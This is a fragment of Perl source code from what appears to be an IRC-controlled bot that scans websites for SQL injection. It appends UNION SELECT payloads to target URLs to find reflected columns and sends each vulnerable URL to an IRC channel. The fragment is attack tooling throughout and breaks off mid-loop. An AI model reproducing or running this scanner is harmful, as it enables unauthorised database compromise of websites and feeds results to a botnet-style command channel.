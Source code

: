            

         $w=int rand(999);    

         $w=$w*1000; 

         for($i=1;$i<=$columns;$i++) { 

            splice(@col,0,$#col+1); 

            for($j=1;$j<=$i;$j++) { 

               push(@col,$w+$j); 

            }    

            $tmp=join(",",@col); 

            $test=$site.$bug."-1+UNION+SELECT+".$tmp."/*"; 

                        #$result=query($test); 

            $result=get_html($test); 

     

            $result =~ s/\/\*\*\///g; 

            $result =~ s/UNION([^(\*)]*)//g; 

            for($k=1;$k<=$i;$k++) { 

               $n=$w+$k; 

                  if($result =~ /$n/){ 

                     splice(@col2,0,$#col2+1); 

                        for($s=1;$s<=$i;$s++) { 

                           push(@col2,$s);  

                        } 

                     $tmp2=join(",",@col2); 

                     $test2="+UNION+SELECT+".$tmp2."/*"; 

                     push @{$dane{$test2}},$k; 

                  }  

            } 

         } 

         for $klucz (keys %dane) { 

            foreach $i(@{$dane{$klucz}}) { 

               $klucz =~ s/$i/$i/; 

            } 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :13,1 [ vuln ] 9,1 [  ".$site.$bug."-1".$klucz."  ]  "); 
